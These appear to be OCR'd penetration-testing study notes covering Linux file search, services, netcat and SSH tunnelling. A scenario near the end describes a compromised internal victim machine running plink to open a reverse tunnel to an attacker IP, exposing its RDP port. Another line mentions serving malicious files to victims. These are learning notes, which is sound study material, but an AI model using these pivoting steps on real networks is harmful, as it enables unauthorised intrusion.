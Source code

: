 linux utilities to **find or locate** files

1. Locate command: 

Updatedb -- to update the db of the OS

Ex: locate sbd.exe

1. Which command :

Ex: which sbd : prg can be found under /usr/bin/

1. find command:

Ex: find / -name sbd\*

all files lower case sbd and file format.

find  -name sbd\* -exec file{} \;

**Services**:

passwd : change the old and weak pass to new strong password

1. SSH Services : Secure shell

EX : netstat -antp \| grep sshd

Service ssh stop

1. HTTP Server:

TCP based  and download the malicious file to victim

Ex: services apache2 start

echo "kali linux rocks" &gt; /var/www/index.html

1. services management : wrapper around /etc/init.d

4.Service persistent

update -rc.d ssh enable

update-rc.d apache2 enable

RC conf also can be used

**bash scripting**

1. cat index.html l grep "href="
2. cat index.html \| grep "href=" \| cut -d

**Essential**

netcat : network utility able to read and write to TCP and UDP ports

it can be used as TCP client or server

nc -nv 192.168.20.25 25

open

banner

HELP

SMTP list all commands

nc -nv 192.168.30.35 110

bob

password: bob

**Port Forwarding**

rinetd.conf

scenario1:



Encrypted tunnel within the ssh tunnel:

**SSH Local Port forwarding \(-L\):**

localport --&gt; remoteport \(Over ssh tunnel\)

**SSH Remote Port forwarding :**

Scenario2\(tunnel a remote port to a local server\):

Initiated Client Attack \(on org\) and got shell of a internal machine \(Non routable\) -- &gt; uploaded a SSH windows client \(plink\) on vi

on victim machine we have RDP enabled \(\)

now to access internal RDP port by creating reverse SSL connection to attacker machine from the victim machine

Now tunnel the local rdp traffic to the remote port using plink

```
plink -l root -pw ubersecretpassword 208.88.127.99 -R 3390:127.0.0.1:3389
```

ssh connection is made and 3390 is in listen mode

netstat -antp \| grep LISTEN

Now in attacker machine try to tunnel the local traffic to rdp

```
rdesktop 127.0.0.1:3390
```



